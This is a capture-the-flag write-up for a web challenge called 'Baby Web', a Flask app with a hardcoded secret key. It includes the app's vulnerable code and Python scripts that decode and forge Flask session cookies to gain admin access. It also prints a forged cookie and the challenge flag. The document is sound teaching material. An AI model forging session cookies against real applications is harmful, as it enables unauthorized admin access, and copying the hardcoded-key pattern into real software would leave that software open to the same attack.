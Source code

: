# Baby Web

> I just learnt how to design my favourite flask webpage using htmx and bootstrap. I hope I don't accidentally expose my super secret flag.
> 
> Author: Junhua
>
> http://challs.nusgreyhats.org:33338/

Solution:

We are given with the source file for the challenge: `main.py`

```python
import os
from flask import Flask, render_template, session

app = Flask(__name__)
app.secret_key = "baby-web"
FLAG = os.getenv("FLAG", r"grey{fake_flag}")


@app.route("/", methods=["GET"])
def index():
    # Set session if not found
    if "is_admin" not in session:
        session["is_admin"] = False
    return render_template("index.html")


@app.route("/admin")
def admin():
    # Check if the user is admin through cookies
    return render_template("admin.html", flag=FLAG, is_admin=session.get("is_admin"))

### Some other hidden code ###


if __name__ == "__main__":
    app.run(debug=True)
```

Oh! The secret key seems revealed here, let's double-check if it is indeed the secret key.

```python
import requests
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

def decoedFlaskCookie(secretKey, cookie):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secretKey, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    return s.loads(cookie)

url = 'http://challs.nusgreyhats.org:33338/'

response = requests.get(url)

cookies = response.cookies.items()[0][1]

secretKey = 'baby-web'

decodedCookie = decoedFlaskCookie(secretKey, cookies)
print("Decoded cookie:", decodedCookie)
```

```
Decoded cookie: {'is_admin': False}
```

Oh! That is indeed the secret key 😂

Let's impersonate as admin and access the `/admin` route to get the flag...

```python
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

def encodeFlaskCookie(secretKey, session):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secretKey, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    return s.dumps(session)

secretKey = 'baby-web'

sessionData = {'is_admin': True}
forgedCookie = encodeFlaskCookie(secretKey, sessionData)
print("Forged cookie:", forgedCookie)
```

We got `eyJpc19hZG1pbiI6dHJ1ZX0.ZiQIIQ.HZ2Mw3loo_GuvQrOWrusqvT46cs`, time to use it!

![image](1.png)

Hmm, still hidden.

![image](2.png)

Oh, a hidden button which can lead to the flag :D

![image](3.png)

![image](4.png)

There we go!

Flag: `grey{0h_n0_mY_5up3r_53cr3t_4dm1n_fl4g}`
